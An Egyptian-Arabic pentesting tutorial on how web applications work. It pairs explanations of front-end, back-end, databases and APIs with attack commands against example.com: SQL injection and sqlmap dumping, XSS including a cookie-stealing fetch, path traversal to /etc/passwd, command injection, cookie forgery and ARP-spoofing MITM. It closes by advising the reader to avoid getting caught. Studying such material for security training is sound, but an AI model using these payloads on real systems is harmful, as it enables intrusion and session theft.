 تمام، هنشرح **ازاي تطبيقات الويب بتشتغل (How Web Applications Work)** بنفس الطريقة اللي فاتت: شرح مفصل وعملي مع أكواد وأوامر، مع تركيز على اختبار الاختراق (Pentesting)، وبعد كل جزء هخلّص بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال.

---

### **1. شرح ازاي تطبيقات الويب بتشتغل بالتفصيل:**

#### **أ. المفهوم الأساسي (What Are Web Apps):**
- تطبيقات الويب هي برامج بتشتغل على الإنترنت، بتتفاعل معاها عن طريق المتصفح (زي جوجل درايف أو فيسبوك). بتعتمد على:
  - **العميل (Client):** المتصفح بتاعك.
  - **السيرفر (Server):** اللي بيخزن البيانات ويظبط المنطق.
- بتستخدم HTML، CSS، JavaScript في الواجهة (Front-End)، ولغات زي PHP أو Python في الخلفية (Back-End).

- **مثال عملي:**
  - لما تعمل تسجيل دخول في موقع:
    - المتصفح بيبعت: `POST /login` مع بياناتك.
    - السيرفر بيرد: صفحة أو رسالة نجاح.

- **جانب عملي للبينتست:**
  - جرب تشوف المصدر في المتصفح:
    - كليك يمين > "View Page Source" (شوف الـ HTML/JavaScript).
  - استخدم `curl`:
    - `curl -X POST -d "user=test&pass=123" http://example.com/login` (شوف الرد).

- **خلاصة بالعامية:**
  - "تطبيق الويب زي المحل اللي بتشتري منه أونلاين، إنت بتطلب من الشاشة والسيرفر بيجهز الطلب في المطبخ."

---

#### **ب. مكونات تطبيقات الويب (Components):**
- **Front-End:** اللي بتشوفه (HTML للهيكل، CSS للشكل، JavaScript للتفاعل).
- **Back-End:** المنطق والحسابات (زي PHP، Node.js، بيتواصل مع قاعدة بيانات).
- **Database:** تخزين البيانات (زي MySQL أو MongoDB).
- **Web Server:** بيخدم الطلبات (زي Apache أو Nginx).

- **مثال عملي:**
  - صفحة تسجيل دخول:
    - Front-End: `<form action="/login" method="POST"><input name="user"><input name="pass"></form>`.
    - Back-End (PHP): `if($_POST['user'] == 'admin' && $_POST['pass'] == '123') { echo "Welcome"; }`.
    - Database: `SELECT * FROM users WHERE username='admin' AND password='123'`.

- **جانب عملي للبينتست:**
  - Front-End:
    - جرب حقن JavaScript: `<script>alert('xss')</script>` في حقل الإدخال.
  - Back-End:
    - `curl -d "user=admin' OR 1=1 --&pass=123" http://example.com/login` (SQL Injection).
  - Database:
    - `sqlmap -u http://example.com/login --data "user=admin&pass=123" --dbs` (استخراج قواعد البيانات).
  - Web Server:
    - `nikto -h http://example.com` (كشف ثغرات).

- **خلاصة بالعامية:**
  - "الدنيا مقسمة: اللي قدامك دي الواجهة، واللي ورا دي السيستم، لو عرفت تضرب أي حته فيهم هتوصل لكل حاجة."

---

#### **ج. سير العمل (Workflow):**
1. **العميل بيبعت طلب:** زي كتابة عنوان URL أو ضغط زرار.
2. **السيرفر بيستقبل ويعالج:** بيفهم الطلب ويجيب البيانات من الـ Database.
3. **السيرفر بيرد:** بيبعت صفحة أو JSON للعميل.
4. **العميل بيعرض:** المتصفح بيظهر النتيجة.

- **مثال عملي:**
  - طلب بحث:
    - المتصفح: `GET /search?q=test HTTP/1.1`.
    - السيرفر يعمل Query: `SELECT * FROM items WHERE name LIKE '%test%'`.
    - الرد: `<div>Results: test1, test2</div>`.

- **جانب عملي للبينتست:**
  - جرب تلعب في الـ URL:
    - `curl http://example.com/search?q=test' OR '1'='1` (SQLi).
  - لو فيه JSON:
    - `curl http://example.com/api/items?q=../../etc/passwd` (Path Traversal).
  - مراقبة بـ Burp Suite:
    - اعترض الطلب وحقن `<img src=x onerror=alert(1)>` (XSS).

- **خلاصة بالعامية:**
  - "العملية زي ما تطلب أكلة: إنت بتقول عايز إيه، السيرفر بيروح يجيبهالك، لو لعبت في الطلب ممكن يجيبلك حاجة مش متوقعها."

---

#### **د. التقنيات المستخدمة (Technologies):**
- **HTTP/HTTPS:** للتواصل.
- **APIs:** زي REST أو GraphQL (لتبادل البيانات).
- **AJAX:** JavaScript بيبعت طلبات من غير تحديث الصفحة.
- **Sessions/Cookies:** عشان يفتكرك السيرفر.

- **مثال عملي:**
  - API:
    - `curl -H "Content-Type: application/json" -d '{"id":1}' http://example.com/api/user`.
  - AJAX:
    - `<script>fetch('/api/data').then(res => console.log(res))</script>`.
  - Cookie:
    - `curl -b "session=abc123" http://example.com`.

- **جانب عملي للبينتست:**
  - API:
    - `curl http://example.com/api/user?id=1 UNION SELECT 1,2,3--` (SQLi).
  - AJAX:
    - جرب حقن في الرد: `<script>fetch('/api/steal?data='+document.cookie)</script>` (XSS).
  - Sessions:
    - `curl -b "session=admin" http://example.com/admin` (Session Hijacking).

- **خلاصة بالعامية:**
  - "التقنيات دي زي الأدوات في المطبخ، لو عرفت تستخدمها أو تكسرها، هتطبخ اللي عايزه أو تبهدل اللي قدامك."

---

### **خطوات عملية للاستغلال (Pentesting):**
1. **اكتشف التطبيق:**
   - `whatweb http://example.com` (معرفة التقنيات).
   - `nmap -sV http://example.com` (كشف السيرفر).

2. **اختبر الـ Front-End:**
   - حقن XSS: `<script>alert(document.cookie)</script>` في أي حقل.
   - استخدم Burp Suite لتعديل الطلبات.

3. **هاجم الـ Back-End:**
   - `sqlmap -u http://example.com/search?q=test --dbs` (SQLi).
   - `curl http://example.com/admin/../config.php` (Path Traversal).

4. **استغل الـ APIs:**
   - `curl -X GET http://example.com/api/users/1' OR '1'='1` (SQLi).
   - جرب معلمات غريبة: `?id=1;whoami` (Command Injection).

5. **العب في الـ Sessions:**
   - سرقة كوكيز بـ MITM: `arpspoof` مع `tcpdump`.
   - تعديل كوكيز: `curl -b "role=admin" http://example.com`.

---

### **خلاصة نهائية بالعامية:**
- "تطبيقات الويب زي لعبة شطرنج، لو فهمت ازاي القطع بتتحرك بين الواجهة والسيرفر، هتعرف تهجم وتكسب، بس خلّيك دماغ عشان متتكشفش!"